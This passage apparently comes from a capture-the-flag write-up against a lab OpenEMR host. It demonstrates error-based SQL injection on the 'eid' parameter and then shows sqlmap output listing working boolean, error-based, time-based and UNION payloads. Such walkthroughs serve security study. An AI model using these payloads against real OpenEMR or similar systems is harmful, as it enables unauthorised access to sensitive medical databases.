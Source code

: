 Visiting `http://hms.htb/portal/add_edit_event_user.php?eid=1%20AND%20EXTRACTVALUE(0,CONCAT(0x5c,VERSION()))` returns:

![image-20200511131330231](https://0xdfimages.gitlab.io/img/image-20200511131330231.png)

It’s an error, but I can see the result, `5.7.30-0ubuntu0.18.04.1` in the error message. This is Error-based SQLi.

This is a tricky one to do manually, but `sqlmap` will nail it. I’ll go into Burp, find that request, and “copy to file”. I’ll edit the url to remove the injection part, leaving this:

```

GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=7es8n2o6ab2s8nu5njec0esaus; OpenEMR=glu0rgv7348lt5tgk788cv0tf5
Upgrade-Insecure-Requests: 1

```

It is important that that `PHPSESSID` cookie is the one that was validated with the auth bypass. Then I can run `sqlmap` to enumerate the database. First find the injection:

```

root@kali# sqlmap -r add_edit_event_user.request
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.4#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
...[snip]...
GET parameter 'eid' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 45 HTTP(s) requests:
---                                                       
Parameter: eid (GET)                                      
    Type: boolean-based blind                             
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: eid=(SELECT (CASE WHEN (8430=8430) THEN 1 ELSE (SELECT 1611 UNION SELECT 5937) END))

    Type: error-based                                     
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: eid=1 AND EXTRACTVALUE(4940,CONCAT(0x5c,0x7178767871,(SELECT (ELT(4940=4940,1))),0x716a787671))

    Type: time-based blind                                
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=1 AND (SELECT 9065 FROM (SELECT(SLEEP(5)))uzSl)

    Type: UNION query                                     
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7178767871,0x5175594d4b427175765279616a4544664a7176636a65436e5655646d6174516b676e556d6b624568,0x716a787671),NULL-- -
---                                                       
[11:38:31] [INFO] the back-end DBMS is MySQL                                                                         
back-end DBMS: MySQL >= 5.1                               
[11:38:31] [INFO] fetched data logged to text files under '/root/.sqlmap/output/hms.htb'

```

